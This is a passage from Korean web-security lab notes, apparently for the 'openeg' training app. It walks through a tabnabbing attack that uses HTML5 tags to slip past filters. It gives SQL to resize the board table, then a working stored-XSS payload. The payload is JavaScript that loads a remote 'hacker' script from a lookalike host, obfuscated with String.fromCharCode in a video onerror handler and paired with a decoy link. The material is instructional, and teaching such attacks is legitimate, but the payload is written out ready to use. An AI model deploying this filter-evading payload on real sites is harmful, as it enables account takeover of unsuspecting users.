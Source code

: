 13. 호스트머신의 화면은 다시 openeg로 정상 복귀되어있어 자신의 계정이 탈취 당한 것을 모를 수 있다.

    > 이러한 예전 tabnabbing 공격을 대비하기 위해 짜놓은 필터는 보통 a 태그에 관한 것이었다.그런데, html5의 새 태그와 속성을 이용해 tabnabbing 공격을 하면 기존 필터를 우회할 수 있다.( 등록할 글이 너무 길어서 컬럼 사이즈를 늘려야 함 : alter table board modify content VARCHAR(6000) ;  만약 이것이 잘 안되면 다음과 같이 수정.)
    ```sql
    DROP TABLE `openeg`.`board`;
    
    CREATE TABLE `openeg`.`board` (	
        `IDX` INT NOT NULL auto_increment,	
        `WRITER` VARCHAR(50) NOT NULL,	
        `SUBJECT` VARCHAR(150) NOT NULL,	
        `CONTENT` VARCHAR(6000) NOT NULL,	
        `HITCOUNT` INT NOT NULL,	
        `RECOMMENDCOUNT` INT NOT NULL,	
        `WRITEDATE` DATE NOT NULL,	
        `WRITERID` VARCHAR(50) NOT NULL,	
        `FILENAME` VARCHAR(100),	
        `SAVEDFILENAME` VARCHAR(100),	
        PRIMARY KEY (`IDX`)) ENGINE=MyISAM;
    ```

    

    

    1. 해커가 글쓰기에서 '재밌는 영상2'라는 제목으로 다음 내용의 글을 쓴다

       ```javascript
       var headTag = document.getElementsByTagName('head')[0];
       var newScript = document.createElement('script');newScript.type = 'text/javascript';
       newScript.src = 'http://openeq.com:8181/openeg/tabnabbing/hacker/tabnabbing.js';
       headTag.appendChild(newScript);
       ```

       

       이 내용을 필터를 우회하기위해  decimal code로 바꾼다( https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html 사이트 이용)

       ```html
       <video>
           <source src="" onerror="eval(String.fromCharCode(118,97,114,32,104,101,97,100,84,97,103,32,61,32,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,115,66,121,84,97,103,78,97,109,101,40,39,104,101,97,100,39,41,91,48,93,59,10,118,97,114,32,110,101,119,83,99,114,105,112,116,32,61,32,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,10,110,101,119,83,99,114,105,112,116,46,116,121,112,101,32,61,32,39,116,101,120,116,47,106,97,118,97,115,99,114,105,112,116,39,59,10,110,101,119,83,99,114,105,112,116,46,115,114,99,32,61,32,39,104,116,116,112,58,47,47,111,112,101,110,101,113,46,99,111,109,58,56,49,56,49,47,111,112,101,110,101,103,47,116,97,98,110,97,98,98,105,110,103,47,104,97,99,107,101,114,47,116,97,98,110,97,98,98,105,110,103,46,106,115,39,59,10,104,101,97,100,84,97,103,46,97,112,112,101,110,100,67,104,105,108,100,40,110,101,119,83,99,114,105,112,116,41,59))">	</source>
       </video>
       
       <a href="http://www.youtube.com/watch?v=D7gsp7RnDfc" target="new" id="a">동영상이 나타나지 않을 때는 여기를 클릭해 주세요.</a>
       ```
